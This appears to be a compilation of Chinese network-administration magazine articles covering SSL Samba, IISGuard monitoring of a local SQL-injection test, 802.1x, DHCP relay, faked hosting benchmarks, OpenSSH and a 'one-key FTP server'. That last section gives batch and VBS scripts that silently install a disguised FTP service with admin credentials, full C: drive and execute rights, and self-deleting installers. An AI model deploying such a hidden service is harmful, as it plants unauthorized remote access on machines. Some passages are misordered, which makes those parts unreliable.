ssleay req -new -x509 -key key.pem -out cert.pem
```

当然，以上是 self-sign 证书，其他证书只需把以上证书改名成相应的证书即可。

- 4. 保存退出，重新启动 SAMBA 服务，看 SAMBA 的日志是否出错；如果没有，表示服务器端 SSL 搭建完成。

##### 客户端支持安全网上邻居配置过程

- 1. 主地址 `10.75.1.156`，辅助地址 `10.75.1.111`。因为本机地址一般被 139 端口 Bind，所以配置 2 个 IP 地址，目的是让第二个地址 `10.75.1.111` 通过转换成为 SSL SAMBA SERVER `10.75.1.11` 的地址，如图2所示。
- 2. 如果有可能，请按以下的配置，如图3所示。
- 3. 在 Windows 下下载 openssl 的 Windows 版本，执行 `openssl s_client -no_tls1 -quiet -connect 10.75.1.11:139`，把它放入一个 Services 里。可以自己写一个 TCP 服务，端口 139，Bind 的地址 `10.75.1.11`（或者在代理服务器上直接安装 SSL 的 139 安全代理）。
- 4. 测试：我们在开始-运行里，输入 `\\10.75.1.111\SHARE`，如图4所示。
- 5. 结果如图5所示。
- 6. 问题：如果连接不成功，原因如下：
  - a. 保证非 SSL 的 SAMBA 可以访问，再测试 SSL 的 SAMBA；
  - b. 证书是否正确，看 SAMBA 的日志；
  - c. SSL 的本地端口是否正确。


##### 小结

以上就是实现 SSL 安全网上邻居的全部过程，如果大家感兴趣，可以看看有关介绍 POP3、SMTP、PROXY、FTP、HTTP、ICQ、OICQ、SSH 等服务的编写或安装使用方法。


适合读者：网络管理员  
前置知识：IIS 配置知识

#### 为 IIS 找一位“贴身警卫”

文/图 郭建伟


##### IISGuard 简介

Microsoft 的 IIS 具有安装方便、使用配置简单等特点，目前在网络上使用非常广泛；但是 IIS 自身存在不少安全漏洞，黑客大多喜欢攻击运行 IIS 的网络主机。IISGuard 是一套独立运行的程序，能实时在线跟踪和监控所有发送给 IIS 服务器的 HTTP 与 HTTPS 的连接请求（以下简称请求），同时提供请求细节信息（包括网页路径、Cookie、HTTP 头等信息），特别针对最近的连接请求列出其完整的处理过程，并能将 IIS 监控信息记入日志，提供了强大的日志搜索功能，还能对运行在 IIS 服务器上的网站进行在线查看和管理等。

##### 启动 IISGuard

有两种方法可以启动 IISGuard：第一种方法是在浏览器的地址栏中输入 `http://localhost:85`（以本机地址为例）；第二种方法是点击“开始”→“Troxo”→“IISGuard”→“IISGuard Home Page”，都能打开 IISGuard 控制页面。在 IISGuard 菜单栏右侧的“Server Time”中显示 IIS 服务器当前的精确时间。

##### IISGuard 的组成

IISGuard 的控制页面由多个属性面板组成。下面分别说明其功能：

### 【Home 面板】

打开 IISGuard 的 Home（主页）面板，如图1所示。


图1

在其中显示了 IIS 和 IISGuard 的基本信息。在“Currently requested”中列出了当前请求的数量信息，点击对应数量链接，切换到 Live Monitor 属性面板。在“Log Files”列出了 IISGuard 记录的日志文件数量，点击相应数量链接，可以切换到 Log Files 属性面板。

### 【Live Monitor 面板】

打开 Live Monitor（活动监控）面板，如图2所示。


图2

显示出当前和最近 IIS 处理请求的细节信息。在工具条的 Active 项中点选“ALL”，将在 Active 列表中显示当前所有请求信息。点选“Last”并输入合适数值，可按规定数量显示当前请求信息。在 History 项中输入合适数值和时间（秒），可显示预定数量的历史请求信息。在 Autofresh 中设定刷新间隔，点击 Apply 保存设置。工具栏右侧有启动、暂停、中止三个按钮，控制列表中请求信息刷新。

Active 和 History 列表主要由 Start time（请求开始时间）、State（IIS 服务器处理请求所处状态，包括 PREPROC_HEADER、URL_MAP 等）、Duration（请求持续时间）、Client IP（客户端 IP 地址）、Cont. Len（请求数据包长度）、Out raw（raw 响应数据尺寸）、Out Cont. Len（IIS 响应给客户端的数据包长度）、Method（HTTP 请求方法，包括 POST 和 GET）、AppPoolId（应用程序池 ID，仅对 IIS6 有效）等项组成。

### 【Log Files 面板】

打开 Log Files（日志文件）面板，如图3所示。


图3

其中显示 IISGuard 记录的 IIS 日志信息。在 Log entries（详细日志）列表中显示监控日志；可通过 Show 控制行数、From 设定起始行，点击 Go 更新列表；点击“<<First”“<Previous”“Next>”“Last>>”进行翻页。列表项与 Live Monitor 中记录项基本相同，另有 End time（请求结束时间）、URL（请求路径）。可用 Filter by time 设定起止时间，或留空提高灵活性，点击 Apply 执行过滤。

在“Search”中输入要过滤的 IP 地址（多个地址可用分号分隔并支持通配符）；在“Search URL for”中输入要过滤的 URL 路径（多个路径可用 And/Or 连接）；点击 Search 按钮按 IP 与 URL 路径进行搜索。

### 【Sites 面板】

打开 Sites（站点）面板，如图4所示。


图4

在其中显示了在 IIS 上建立的网站信息，在网站列表的 Description 列中显示网站名，在 Host Info 列中显示主机信息，AppPoolID 列的内容与前面介绍的相同，在 Status 列中显示网站的运行状态（启动还是中止），在 Action 列表有三个按钮，可以启动、暂停、中止选定网站的运行。

### 【Settings 面板】

打开 Settings（设置）面板，如图5所示。


图5

在其中能对 IISGuard 的运行参数进行设置。在 General（基本属性）面板中点击 Edit（编辑）按钮，在“Live monitor file types”和“Log file types”中分别设置访问网站中某些类型的脚本文件时，对其进行监控和记录日志；在“Color out scripts”中设置请求超过多长时间更改监控列表颜色；在“Date format”定义日期显示的格式；在“Live Monitor columns”和“Log Files columns”中分别定义在监控列表中监控的字段类型。

在 Log Files 设置页面的“Log file max size”中设置日志文件的最大尺寸，在“Compression”定义日志文件压缩的标准，在“Deletion”设置删除旧日志的方式。在“Log Folder”中设定日志文件所在的文件夹。

IISGuard 默认安装后的端口号是 85，并且允许匿名访问，这会带来不安全因素；打开 Web Access 设置页面，如图6所示。


图6

在其中的“Port”中定义新的端口，在“Allow anonymous access”中确定是否允许匿名访问；如果禁止匿名访问，在“Username”设置允许访问的用户名，在“Password”中设置密码，访问 IISGuard 必须输入认证信息。如图7所示。

勾选“IP filtering”能开启 IP 过滤。这样，访问者的 IP 只有符合“Allowed IP Addresses”中定义地址范围，才能访问 IISGuard。注意可以输入多个 IP 地址，彼此之间用分号隔开。


图7

##### 应用实战

这里以前常见的 SQL 注入入侵为例来看 IISGuard 的分析能力。在本机上搭建测试环境，操作系统为 Windows XP 专业版，安装系统自带的 IIS 5.1，将一套存在 SQL 注入漏洞的 ASP 网站代码存放到 `E:\inetpub\wwwroot` 目录下（E 盘为系统盘），打开 NBSI2 注入工具，在注入地址中输入 `http://localhost/shownews.asp?id=237`，点击检测按钮，发现存在 SQL 注入漏洞，枚举猜解出表名和列名，如图8所示。


图8

然后打开 IISGuard 监控页面，在 Log Files 面板的“Search”中输入查询的起始结束时间，点击 Apply 按钮过滤。在监控日志中清晰地显示出大量 Out raw 长度在 4000 以上的数据包，URL 地址栏中也显示出大量的注入地址，将鼠标移动到这些地址上，IISGuard 弹出提示框，显示详细的注入细节。如图9所示。


图9

入侵者的 IP 地址醒目地显示在 Client IP 列中。同样地，在 Live Monitor 面板中也可以监控到 SQL 注入的细节信息，方便我们修补漏洞。

**刘流**：突然发现，大家对于局域网的安全问题开始重视起来。802.1x 大家可能都不熟悉，不过它有一个最常见的实际应用：“本地连接”中的“身份验证”。

**适合读者**：网络管理员  
**前置知识**：网络管理知识

#### 使用 802.1x 协议实现局域网安全访问

文/图 fdog123

802.1x 是一种基于交换机设备端口的验证和授权方式。这个标准定义了可扩展验证协议 EAP（Extensible Authentication Protocol），它使用一个中央的验证服务器来验证网络上的每个用户。由于该方式是在 OSI 模型的数据链路层这一级别验证用户和计算机，从根本上杜绝了基于操作系统用户名密码破解的黑客攻击。

目前微软的 Windows 2000 及 XP 已被广泛使用，而 802.1x 需使用到的认证软件已内含在 Windows Advanced Server 2000 及 Windows 2003 Server 的 IAS 内，802.1x Client 所需的软件也已内含在 Windows 2000 及 XP 中，并且可以支持 MD5-Challenge、EAP-TLS、PEAP 等多种认证方式。下面以 MD5-Challenge 为例，分别介绍在交换机（须支持 802.1x）、服务器端和客户端上的设置。

```text
!
interface Vlan3
 no ip address
 no ip route-cache
 shutdown
!
radius-server host 192.168.168.254 auth-port 1812
acct-port 1813 key 123456
```

以上设置了交换机共享密钥为 123456，并设置了 1 号端口的一些属性：打开其 802.1x 认证模式并设定认证周期为 30 秒，利用动态 VLAN 切换功能，结合下面的 IAS 认证不同的操作系统用户身份，将该端口连接的客户机划到 VLAN1 或者 VLAN2 中，或者不能通过、丢到 VLAN3 中与受信网络隔离。其他端口的配置都是类似的，因不同类型的交换机配置所用命令可能不同，具体命令含义请参考交换机用户手册。

### 交换机（IP: 192.168.168.253）

现在很多交换机都支持 802.1x 认证，在此以常用的 Cisco2950T 为例。进入交换机 EXEC 模式，设置如下：

```text
configure terminal
!
aaa new-model
aaa authentication dot1x default group radius
dot1x system-auth-control
aaa authorization network default group radius
!
interface FastEthernet0/1
 switchport mode access
 dot1x port-control auto
 dot1x timeout quiet-period 30
 dot1x timeout reauth-period 30
 dot1x timeout supp-timeout 2
 dot1x max-req 10
 dot1x guest-vlan 3
 dot1x reauthentication
!
interface Vlan1
 ip address 192.168.168.253 255.255.255.0
 no ip route-cache
!
interface Vlan2
 no ip address
 no ip route-cache
```

### 服务器端（IP: 192.168.168.254）

首先在服务器上为认证用户添加新的用户组和用户。本文中，以普通用户组 Domain Users 和管理员用户组 Domain Admin 为例，当系统登录用户为管理员用户，将其划入 VLAN1；如果是普通用户，将其划入 VLAN2。需要注意的是要在密码策略中为用户配置“使用可还原的加密”选项，该设置需要在重启计算机后生效，如图 1 所示。

接下来，需要配置 Internet 验证服务。在默认状态下 IAS 服务器是不被安装的，服务器系统管理员需要手工安装 IAS。

打开控制面板，选择“添加/删除程序”→“添加/删除 Windows 组件”→“网络服务”→“详细信息”→“Internet 验证服务”（图2）。

安装完成后，即可通过“管理工具”→“Internet 验证服务”打开 IAS 的配置界面。首先需要添加客户端。需要注意的是，这里的客户端是指认证交换机，且共享密钥需与交换机设置相同（图3、图4）。添加完成后，客户端列表中即可显示（图5）。下一步，需要配置访问策略。

我们现在需要在 IAS 内设定策略，以此指定不同用户认证通过后进入不同的 VLAN。此处设置两个策略（1 和 2）并进行配置：

- 策略 1：添加一条远程访问策略名称 1 并添加相应的策略属性（Windows-Groups 匹配“RADIUS\Domain Admin”；NAS-Port-Type 匹配“Ethernet”），编辑接入配置文件，选择身份验证 MD5-Challenge；并在高级添加 Tunnel-Medium-Type（供应商为 Radius Standard，值为 802 includes all 802 media plus Ethernet canonical format）、Tunnel-Pvt-Group-ID（供应商为 Radius Standard，值为 1，认证成功后切换到 VLAN1）、Tunnel-Type（供应商为 Radius Standard，值为 Virtual LANs (VLAN)），如图6所示。
- 策略 2：添加一条远程访问策略名称 2 并添加相应的策略属性（Windows-Groups 匹配“RADIUS\Domain Users”；NAS-Port-Type 匹配“Ethernet”），编辑接入配置文件，Tunnel-Pvt-Group-ID 值为 2（认证成功后切换到 VLAN2）；其余设置与策略 1 中相同。

对于 Windows 2000 SP4 以及 Windows XP SP2 用户，默认支持 802.1x，但其服务需要手工启动。在命令行中输入：`net start WZCSVC`，启动 Wireless Zero Configuration 服务。在网卡属性中会多出一个身份验证选项卡，将客户端身份验证设置为“MD5-质询”（图7）。

配置成功后，系统右下角弹出如图8所示界面。点击该界面后，弹出对话框输入你的用户名、密码、登录域（图9）。

如果用户是域用户就需要输入“登录域”名称。根据前面 IAS 设置，如果用户属于 Domain Admin 组，客户端被转入 VLAN1 中；如果属于 Domain Users 组，客户端被转入 VLAN2 中；认证不通过或不属于以上两组，客户端被分配到 GUEST VLAN 3 中。

实践中发现在 Windows 2000 中认证通过后没有像 Windows XP 中出现确认提示，所以可以采用其他方式测试已经连通，如 Ping 命令。至此整个 802.1x 认证配置完成。但是还要注意，如果认证端口下再接 HUB，那么只要认证一次，所有的 HUB 端口都可以访问了。以上是个人认识，如有不同看法请多多交流。

---

刘流：DHCP 服务免去了我们设置 IP 的烦恼，不过它只能对自身所处的子网起作用。要同时对多个子网进行 DHCP 设置，必须设置中继代理。本文作者用一台三层交换机就完成了这项工作，其实思科的设备都很有意思，大家不妨多玩一玩。

适合读者：Cisco 工程师、网络管理员、计算机网络专业学生、网络爱好者  
前置知识：DHCP 技术、Cisco 配置基础

#### 利用三层交换机实现 DHCP 中继代理

文/图 盐城师范学院计算机系 袁志浩 卢东祥

##### 前置知识

### 1. DHCP 协议

DHCP 是 Dynamic Host Configuration Protocol（动态主机配置协议）的缩写。在常见的小型网络中，IP 地址的分配一般都采用静态方式；但在大中型网络中，为每一台计算机分配静态 IP 地址的工作量巨大且容易出错，因此使用 DHCP 服务非常高效。DHCP 可避免地址冲突，支持地址租约和配置参数下发，并支持主机在不同子网移动时减少重新配置工作。

### 2. 三层交换技术

三层交换技术也称为 IP 交换技术，是利用三层协议信息增强二层交换能力的机制。它具备路由的基本特征，可完成报文转发，并在吞吐、时延与成本等方面弥补传统路由设备的一些不足。

### 3. 实现 DHCP 中继

- DHCP 工作原理
  - 客户机广播发送 `dhcpdiscover` 寻找 DHCP 服务器。
  - 服务器响应 `dhcpoffer`，提供可租用 IP 与配置。
  - 客户机发送 `dhcprequest` 请求选定地址。
  - 服务器发送 `dhcpack` 确认，客户端完成 TCP/IP 绑定。
  - 租约过半后续租；到 87.5% 仍无法联系原服务器时，重新发起发现流程。
- 三层交换的工作原理：当 A、B 不在同一子网时，A 先向“缺省网关”发起通信，三层交换模块通过 ARP 学习并维护目标 MAC 与转发表项，再交由二层引擎高速转发，实现跨网段通信。

```text
Switch>enable
Switch#vlan database
Switch(vlan)#vlan 2 name server
Switch(vlan)#exit
Switch#config terminal
Switch(config)#interface vlan 2
Switch(config-if)#ip address 192.168.1.1 255.255.255.0
Switch(config-if)#no shutdown
Switch(config-if)#exit
Switch(config)#interface range fastethernet 0/1 - 24
Switch(config-if-range)#switchport mode access
Switch(config-if-range)#spanning-tree portfast
Switch(config-if-range)#exit
Switch(config)#interface range fastethernet 0/1 ... 2
Switch(config-if-range)#switchport access vlan 2
Switch(config-if-range)#exit
```

### 4. 配置三层交换机为 DHCP 中继代理

首先启用 DHCP 中继代理功能，否则即使在 VLAN 中指定 DHCP 服务器，客户端也无法获取 IP 地址。

```text
Switch>enable
Switch#config terminal
Switch(config)#service dhcp
Switch(config)#ip dhcp relay information option
```

中继代理启用后，在 VLAN 接口下指定 DHCP 服务器地址（例如 192.168.1.10）。

```text
Switch(config)#interface vlan 2
Switch(config-if)#ip helper-address 192.168.1.10
Switch(config-if)#exit
```

##### 应用实例

### 1. 需求分析

A 大学几位学生创业组建企业，包含行政部、研发部和财务部。为适应发展与信息安全需求，计划搭建小型局域网并提出访问控制与地址分配要求。

- 初期投资尽量节约。
- 研发部和财务部不允许互相访问，但都可访问行政部服务器。
- 拒绝来自外部的一切访问。
- 允许内部用户访问外网。

### 2. 拓扑结构图

如图 1 所示。

### 3. 详细设计

采用 Cisco 4006 交换机划分三个 VLAN：VLAN2（行政部/服务器网段 210.28.182.0/24）、VLAN3（研发部 210.28.183.0/24）、VLAN4（财务部 210.28.184.0/24），并规划网关、服务器角色与端口分配策略。

### 4. 具体配置

配置命令及步骤如下。

- 第一步，配置 Enable 口令和主机名：

```text
Switch>
Switch>enable
Switch#config terminal
Switch(config)#enable secret cisco
Switch(config)#hostname C4006
C4006(config)#exit
```

- 第二步，创建 VLAN：

```text
C4006#vlan database
C4006(vlan)#vlan 2 name server
C4006(vlan)#vlan 3 name research
C4006(vlan)#vlan 4 name finance
C4006(vlan)#exit
```

- 第三步，启用 DHCP 中继代理：

```text
C4006#config terminal
C4006(config)#service dhcp
C4006(config)#ip dhcp relay information option
```

- 第四步，配置各 VLAN 三层接口地址：

```text
C4006#config terminal
C4006(config)#interface vlan 2
C4006(config-if)#ip address 210.28.182.1 255.255.255.0
C4006(config-if)#no shutdown
C4006(config-if)#interface vlan 3
C4006(config-if)#ip address 210.28.183.1 255.255.255.0
C4006(config-if)#no shutdown
C4006(config-if)#interface vlan 4
C4006(config-if)#ip address 210.28.184.1 255.255.255.0
C4006(config-if)#no shutdown
C4006(config-if)#exit
```

- 第五步，设置端口全局参数：

```text
C4006(config)#interface range fastethernet 0/1 24
C4006(config-if-range)#switchport mode access
C4006(config-if-range)#spanning-tree portfast
```

- 第六步，划分端口：

```text
C4006(config)#interface range fastethernet 0/1 8
C4006(config-if-range)#switchport access vlan 2
C4006(config)#interface range fastethernet 0/9 16
C4006(config-if-range)#switchport access vlan 3
C4006(config)#interface range fastethernet 0/17 24
C4006(config-if-range)#switchport access vlan 4
C4006(config-if-range)#exit
```

- 第七步，配置 DHCP 服务器地址：

```text
C4006(config)#interface vlan 3
C4006(config-if)#ip helper-address 210.28.182.10
C4006(config)#interface vlan 4
C4006(config-if)#ip helper-address 210.28.182.10
```

- 第八步，设置访问控制：

```text
C4006(config)#ip routing
C4006(config)#access-list 101 permit ip 210.28.182.0 0.0.0.255 210.28.183.0 0.0.0.255
C4006(config)#access-list 101 permit ip 210.28.183.0 0.0.0.255 210.28.182.0 0.0.0.255
C4006(config)#access-list 101 permit udp any any eq bootpc
C4006(config)#access-list 101 permit udp any any eq tftp
C4006(config)#access-list 101 permit udp any eq bootpc any
C4006(config)#access-list 101 permit udp any eq tftp any
C4006(config)#access-list 102 permit ip 210.28.182.0 0.0.0.255 210.28.184.0 0.0.0.255
C4006(config)#access-list 102 permit ip 210.28.184.0 0.0.0.255 210.28.182.0 0.0.0.255
C4006(config)#access-list 102 permit udp any eq tftp any
C4006(config)#access-list 102 permit udp any eq bootpc any
C4006(config)#access-list 102 permit udp any eq tftp any
C4006(config)#exit
```

- 第九步，启用访问控制列表：

```text
C4006(config)#interface vlan 3
C4006(config-if)#ip access-group 101 out
C4006(config-if)#interface vlan 4
C4006(config-if)#ip access-group 102 out
```

- 第十步，保存配置文件：

```text
C4006(config-if)#end
C4006#copy running-config startup-config
```

##### 总结

实现 DHCP 中继代理的方法有多种，包括使用 Windows 2000 路由和远程访问服务、路由器以及 Windows 2003 Server 中提供的 DHCP 中继代理。但是使用三层交换技术实现 DHCP 中继代理是最经济、实用、高效的方法。

---

#### 给客户揭穿主机奸商的骗局

文/图 玫瑰下的烂泥

广东人有句老话：无奸不商，所以有很多奸商一夜之间就成了暴发户。今天我就给大家谈谈关于虚拟主机性能的信息欺诈，一起来看看奸商的嘴脸。

现在的“ASP 探针”品牌很多，但是技术的核心都与阿江开发的“ASP 探针”相同。由于“阿江 ASP 探针”用户广泛且具有一定的权威性，所以下面我拿它来为大家举例。

##### CPU 数量伪造

打开“ASP 探针”的源代码，如图 1 所示。从源代码里我们可以看出，它并不是用真正的对系统变量进行检测（在 ASP 里并不可能执行有效的系统级内核指令，当然 DLL 引入的除外），只是简单地读出系统生成的变量参数而已。这类系统变量参数一般都可以在系统的属性里修改。

##### 运算时间伪造

下面我们先来看代码，如图4所示。


数量，如图3所示。


从这可以看出，大部分的检测工具都很依赖系统生成的信息。做虚拟主机生意的朋友肯定很喜欢在这里动手脚。也许有读者想到了，既然这里可以修改的话，那我们不读取这些系统信息，只看CPU运行的脚本解释和运算速度测试“不就行了吗？”想法不错，不过事实上并非如此。

> 运算速度测试：ASP探针在执行指令之前记录一个系统时间，完成指令后再记录一个系统时间，然后把两者的差作为CPU运算速度的指标。


图中代码中引用了VBScript中的“Timer”函数。虽然我们不能从代码里做手脚，但要使前后的“Timer”值之差减少并非难事。我用“变速齿轮”来说明这个问题，如图5所示。


为了做对比，图5中采用的是正常速度。下面我开始作案了，在服务器中运行“变速齿轮”。我们的目的是将服务器的系统时间变慢，也就是说，正常时间经过两秒，而电脑只记录一秒。所以变速方法我们要选“系统时钟级变速方法”，如图6所示。


在这里我用“变速齿轮”把系统时钟减慢到正常速度的10%。如果你喜欢的话，减慢到5%也行。现在我们就可以看看效果了，如图7、图8所示。


图7


图8

不单CPU的运算指数，磁盘文件操作速度等所有与时间相关的测试都会大幅变化，本人的操作用机只是P4 2.8G而已，但是测试出来的速度却比真正的服务器快了一半以上。看到这里，你还能说“ASP探针”是可信的吗？

有攻就有防，虚拟主机商人有招，我们自然有应对之法。根据变速齿轮的系统时钟变速特征，我们可以在探针里加上两条输出时间的语句，看看它的时间是不是有问题。透过上面的问题，希望想购买空间的朋友能更细心一点，虚拟主机提供商也不要再弄虚作假了。

- 适合读者：网管、系统安装菜鸟  
- 前置知识：无

## VIP会员学习成果展

## 轻松玩转系统恢复

文／图 风碧玉箫


看了黑防刊登的《让系统恢复更轻松》一文，我便决定写这篇文章。主要是因为Pro Magic功能太多，对于我们广大菜鸟来说还是不太容易上手。

就一般用户而言，我们最主要的目的是保护C盘和CMOS，因此只要选一款能保护CMOS和C盘的还原软件即可。这里我向广大菜鸟和网管朋友推荐“三茗一键恢复”（软件可直接影响系统运行，使用时请注意）。

##### 软件简介

三茗一键恢复不依赖操作系统，可以实现本地硬盘的系统数据和CMOS参数的动态保护与恢复。我们的电脑安装它之后，如果发现染病毒了、上不成网了、玩不成游戏了、死机了、被黑客破坏了、系统崩溃了、越来越慢了……仅需按下F9键，一两秒钟电脑就能恢复正常。

##### 软件安装

双击安装程序，依次点击“接受协议”→“下一步”→“安装选项设置”。这里我们可以选择需要保护的分区：C区，输入管理员密码，并设置安装路径，如图1所示。


图1

点击“下一步”，安装程序提示：如果是安装了多操作系统，则必须每个操作系统都要进行安装。因为我的电脑是单操作系统，所以直接选择第一项“无其他操作系统，或所有操作系统已安装完毕”，如图2所示。

接下来出现“注意事项”，并提示是否重新启动电脑，选择第一项“立即重启我的系统”，电脑会马上重启并进行一些系统设置，重启后安装就结束了。


图2

如图3所示。


图3

##### 软件使用

我们使用起来非常简单，只要在系统重启时按一下F9就可以了，如图4所示。


图4


图5

进入设置界面我们可以对系统进行恢复、保存、卸载、设定等。

##### 注意事项

- 在BIOS中把硬盘的访问模式调整成LBA模式。
- 安装后不要使用Windows自带系统还原功能。
- 重要的资料放在不被保护的分区，以免误操作造成资料意外被恢复。
- 尽量避免非法关机的情况发生。
- 使用时注意动态缓冲区的变化，鼠标移动到托盘图标上即可出现。

怎么样？恢复就是这么简单，还不赶紧来试一下？

- 适合读者：网络管理员、站长  
- 前置知识：无

## Windows下的安全文件传输


文／图 郭建伟

在Windows环境下，传统的网络服务程序（如FTP、POP和Telnet）等在本质上都是不安全的，因为它们在网络上用明文传送口令和数据，黑客非常容易就可以截获这些口令和数据。而且，这些服务程序的安全验证方式也是有其弱点的，就是很容易受到“中间人”的攻击。这些“中间人”冒充真正的服务器接收用户传给服务器的数据，然后再冒充用户把数据传给真正的服务器。服务器和用户之间的数据传送被“中间人”做了手脚之后，就会出现很严重的安全问题。为此，我们需要一种安全的网络传输解决方案。

### OpenSSH简介

OpenSSH是一个基于SSH协议的网络连接免费工具软件包。所有使用OpenSSH工具的通信，包括口令、文件都会被加密，它可以有效地防范各种监听手段，从而杜绝网络连接的泄密。OpenSSH一般都是安装运行在Unix/Linux环境下的，事实上，它在Windows下同样可以安装、配置、使用。利用OpenSSH我们可以轻松保证文件传输的安全性。OpenSSH的Windows版本在光盘的“杂志相关”栏目有收录。

### Windows下OpenSSH的安装

步骤1：打开CMD窗口，以命令行方式进入OpenSSH的安装目录的Bin文件夹，缺省目录为`C:\PROGRAM FILES\OpenSSH`。

步骤2：在使用OpenSSH Server之前要先建立用户和组，首先将Windows中的用户组导入Group文件中，这一步是必须的。具体命令行为`mkgroup -l >> ..\etc\group`。这里的用户组分两种情况，第一种是本地用户组，第二种是在域用户组，对应使用`-l`和`-d`参数就能将两种用户组分别导入。然后将Windows中的用户导入到OpenSSH Server中，假定本地用户Cxl被允许登录OpenSSH Server，输入以下命令：`mkpasswd -l -u cxl >> ..\etc\passwd`。运行命令后，在`../etc`目录下产生密码文件`passwd`。这样，我们就将用户Cxl及其密码导入到了`passwd`文件中。这里我们需要注意，OpenSSH Server中的用户必须是系统中存在的用户，如果没有该`passwd`文件或没有导入用户信息，系统中的用户将无法登录OpenSSH服务器。用户导入也分本地和域两种情况，使用`-l`和`-d`参数即可。具体操作如图1所示。


步骤3：使用命令`net start opensshd`启动OpenSSH服务。相应地，关闭OpenSSH服务使用命令`net stop opensshd`。

### 如何使用OpenSSH服务器

一般情况下，在CMD窗口中使用`ssh`、`sftp`、`scp`等命令来操作OpenSSH Server。这里举例如下：

```bash
ssh -p 端口 用户名@对方主机IP
sftp -p 端口 用户名@对方主机IP
scp -p 端口 用户名@对方主机IP:文件路径
```

OpenSSH Server端口默认是22，如果要更改端口，我们可以在`etc/sshd_config`文件中的“Port”处进行修改。不过上述命令使用起来不太方便，对于初学者来说肯定是一头雾水。这时候，如果有图形化的连接工具可供使用，那就方便多了。WinSCP是一个Windows环境下使用SSH的开源图形化SFTP客户端，同时支持基于SSH-1、SSH-2的SFTP和SCP协议，支持批处理脚本和命令行方式。它的主要功能就是在本地与远程计算机间安全地复制和传输文件。我们可以从光盘中找到此程序，WinSCP启动后出现登录对话框，如图2所示。

这里我们输入OpenSSH Server主机名或IP地址、端口号、用户名和密码，点击“登录”按钮连接OpenSSH Server。如果服务器的密钥没有存放在缓存中，WinSCP会弹出警告窗口，提示用户是否将密钥放入缓存；点击“取消”按钮就中止连接。确认后我们连接成功进入WinSCP主界面，如图3所示。


WinSCP的主窗口类似于Windows资源管理器，使用起来非常方便。WinSCP与Windows完美集成，可以在资源管理器和OpenSSH Server之间直接拖拽文件或文件夹，完成文件的下载和上传操作。WinSCP支持常见的文件操作，例如在OpenSSH Server的文件管理界面中点击右键，利用弹出菜单可以实现对服务器上文件的编辑、复制、删除、移动、改名以及新建文件夹等操作。WinSCP支持本地和OpenSSH Server之间的目录同步操作，这就保证了远程目录和本地目录的一致性。我们只需要在WinSCP中选中远程目录，点击菜单“命令”→“同步”，在同步窗体中设置即可。此外，利用工具栏上的按钮还可实现目录比较、保持远程目录在最新状态、打开终端、同步浏览等实用操作。利用“会话”菜单，可以实现新建、打开、保存、断开会话等操作。

##### 总结

通过OpenSSH和WinSCP的完美组合，我们实现了在Windows下的安全文件传输。尽管速度稍微慢了一点，不过相对于提升的安全性而言，这些都是值得的。对于学校、公司、企业等需要保密数据传输的机构来说，这种组合不失为一种良好的解决方案。

- 适合读者：网络爱好者、网管  
- 前置知识：无

## VIP会员学习成果展

## 打造一键FTP服务器


相信大家都知道怎样制作一键Radmin吧？一键运行的东西确实非常方便，可是大家想到过制作一键FTP服务器吗？最近我在网上瞎逛，终于找到了一款合适的软件：SFTP。

##### 运行参数

SFTP是一个控制台应用程序，它可以作为系统服务运行。支持的命令行参数如下：

- `-i [serverName] [服务描述]`：安装VIDC20作为一个系统服务，用户可以指定服务名称和描述。
- `-u`：卸载服务。
- `-s`：启动服务。
- `-e`：停止服务。
- `-d`：控制台方式（`-d0`到`-d4`为不同DEBUG级别）。
- `-f filename`：读取指定配置文件，仅在`-d`方式下有效。
- `-p svport`：指定服务端口（默认2121），仅在`-d`方式下有效。

### 扩充FTP命令

用户可通过FTP客户端输入扩充命令（如cuteFTP）。下面对主要命令进行说明。

`EXEC`：在FTP服务端执行指定程序（目录需有`FILE_EXEC`权限）。

用法：`EXEC [-hide] <可执行文件名>`

`AUSER`：添加或修改账号信息。

用法：`AUSER user=<username> [pwd=<password>] [maxup=<最大上传速度>] [maxdw=<最大下载速度>] [maxuser=<最大同时登录人数>] [defip=1|0] [admin=<true|false>]`

`VPATH`：添加/修改某账号的虚目录及访问权限（需远程管理权限）。

用法：`VPATH user=<username> vdir=<虚目录> rdir=<真实目录> access=<FILE_READ|FILE_WRITE|FILE_DEL|FILE_EXEC|DIR_LIST|DIR_MAKE|DIR_DEL|DIR_NOINHERIT>`

`SETS`：设置FTP服务信息（不支持FTP客户端远程执行，仅可在参数配置文件中使用）。

用法：`SETS [opentype=APPEND] [log=<filename>] [loglevel=<LEVEL>] [port=<端口>] [maxuser=<最大同时登录用户数>] [ssl=true|false]`

### 打造一键FTP服务器

知道配置参数后，就来打造一键安装吧。先新建文本文件`SFTP.txt`，内容如下：

```txt
SETS port=21789 ssl=false
AUSER user=hf pwd=hf maxup=100 maxdw=100 admin=true
VPATH user=hf vdir=/ rdir=c:\\ access=FILE_READ|FILE_WRITE|FILE_DEL|FILE_EXEC|DIR_LIST|DIR_MAKE|DIR_DEL
```

将它保存为`SFTP.ini`。该配置用于添加账号、设置上传下载速度、端口、管理权限及目录权限。再新建批处理文件`an.bat`：

```bat
@echo off
@SFTP.exe -i Detection
@SFTP.exe -s
@del an.vbs /f /q
@del an.bat /f /q
```

该程序用于安装并启动SFTP服务（服务名为Detection），并删除临时文件。下面建立`an.vbs`：

```vbscript
On Error Resume Next
set wshell=createobject("wscript.shell")
a=wshell.run("an.bat",0)
```

它用于静默运行`an.bat`，避免弹出CMD窗口。实际应用中可修改程序名并打包为自解压。最后测试运行正常，文章结束。

- 适合读者：网络爱好者、网管  
- 前置知识：无

## 数字签名在企业VLAN中的实现

文／图 中科院 郭东美


##### 前言

在当今信息社会，计算机网络得到了突飞猛进的发展。计算机网络日益成为工业、农业和国防等领域的重要信息交换手段，并逐渐渗透到社会的各个领域。企业实现无纸化办公，计算机网络的安全越来越受到重视，防止信息被未经授权泄露、篡改和破坏等都是亟待解决的问题。数字签名在Internet上的应用需要专门的数字证书颁发认证机构（CA），统一管理数字签名的应用和校验。但是，由于部分企业内部局域网不能与Internet连接，基于此，数字签名在局域网中是受到使用限制的。下面我们就利用密码学的知识，建立企业内部局域网的文件加密和数字签名系统，以实现企业内部局域网中的数据安全传送。

##### 公钥加密技术原理

数据加密技术是对信息进行重新编码，从而隐藏信息内容，使非法用户不能获取信息真实内容的一种技术手段。目前，数据加密主要使用的有对称密钥和公钥加密（也称非对称密钥加密）两种技术。对称密钥加密技术中，加密和解密使用相同的密钥，最常用的是DES（Data Encryption Standard）算法。DES算法是公开的，DES内部的复杂结构对信息安全起了重要作用，使其保密性仅取决于对密钥的保密程度。

